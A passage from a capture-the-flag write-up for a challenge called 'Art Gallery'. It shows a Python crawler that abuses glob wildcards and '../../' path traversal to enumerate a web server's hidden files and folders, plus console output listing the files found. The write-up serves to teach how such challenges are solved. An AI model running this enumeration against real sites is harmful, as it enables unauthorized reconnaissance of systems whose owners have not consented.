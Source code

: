 ```python
            visible = [""]
            while len(paths) > 0:
                current = paths.pop()
                for c in ALPHABET:
                    file = current + c
                    if file.startswith("."):
                        continue
                    if _path_exists(prefix + relative_path + file + "*" + suffix):
                        paths.append(file)
                        p.status(f"Found partial entity: {file}")
                    if _is_visible(relative_path + file):
                        visible.append(relative_path + file)
                        p.status(f"Found visible entity: {file}")
                p.status(f"Current paths: {paths}, current visible: {visible}")
            return visible
    except Exception:
        print(f"Aborting, paths = {paths}, visibile = {visible}, current = {current}")
        raise

def crawl(relative_path):
    log.info(f"Searching for files in '{relative_path}'")
    files = _crawl("../../", "", relative_path)
    log.info(f"Found: {files}")

    log.info(f"Searching for folders in '{relative_path}'")
    folders = _crawl("../../", "/*", relative_path)
    log.info(f"Found: {folders}")

    return (files, folders)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Art Gallery Crawler')
    parser.add_argument('-r', '--relative_path', required = True, type = str, help = 'Relative path to crawl')
    args = parser.parse_args()
    crawl(args.relative_path)
```

This script uses the glob pattern and HTML comment indicator to decide if a file or folder exist, and then tries to fetch it to decide if it's accessible. We consider resources that return a 403 error code as accessible since that's what folder usually return when accessed directly.

To get a list of (non-hidden) files and folders under the main folder, we call:

```console
root@kali:/media/sf_CTFs/shabak/Art_Gallery# python3 crawl.py -r ""
[*] Searching for files in ''
[+] Crawling "" with prefix = "../../", suffix = "": Done
[*] Found: ['post.php', 'author.php', 'robots.txt', '404.php', '403.php', 'index.php', 'favicon.ico']
[*] Searching for folders in ''
[+] Crawling "" with prefix = "../../", suffix = "/*": Done
[*] Found: ['', 'files']
```
